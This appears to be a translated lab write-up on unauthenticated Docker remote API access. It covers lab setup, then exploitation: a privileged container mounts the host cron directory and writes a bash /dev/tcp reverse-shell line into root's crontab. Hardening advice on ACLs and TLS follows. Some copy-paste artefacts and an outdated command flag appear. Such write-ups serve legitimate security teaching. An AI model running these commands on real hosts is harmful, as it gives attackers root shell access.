




# Docker Unauthorized Access Vulnerability

## Vulnerability Description

Malicious attackers can access Docker servers or containers without authorization. This can result in sensitive data leaks or allow attackers to perform unauthorized actions such as adding, modifying, or deleting containers.

## Environment Setup

Install docker

```
yum install -y docker
```

Modify the `/usr/lib/systemd/system/docker.service` service to start the API interface.

```
ExecStart=/usr/local/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```



Restart the docker service.

```
systemctl daemon-reload
systemctl restart docker
```



## 漏洞复现

Entering `ip:2375/version` will list basic information, the same effect as the docker version command.




**Exploit Docker container to write a timed task to bounce a shell**

We can use the unauthenticated Docker remote API to start a container and mount it to the root directory, thus giving us arbitrary read-write privileges. Then we write the reverse shell command into the crontab of the timed task, which can cause the host to bounce the shell.

```
[root@localhost ~]# docker -H tcp://192.168.32.183:2375 run -it --user root --privileged -v /var/spool/cron/:/var/spool/cron/ alpine sh
```

Write to the schedule

```
/ # echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/8088 0>&1' >> /var/spool/cron/root
```



## Security Hardening

Do not enable the Docker remote API service unless necessary. If it is necessary, the following hardening methods can be used:

```
basicCopy codeSet ACLs to only allow trusted source IPs to connect;
Set TLS authentication, the official document for Protecting the Docker daemon socket
```

After the certificate for communication between the client and server is generated, the following command can be used to start the Docker daemon:

```perl
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```

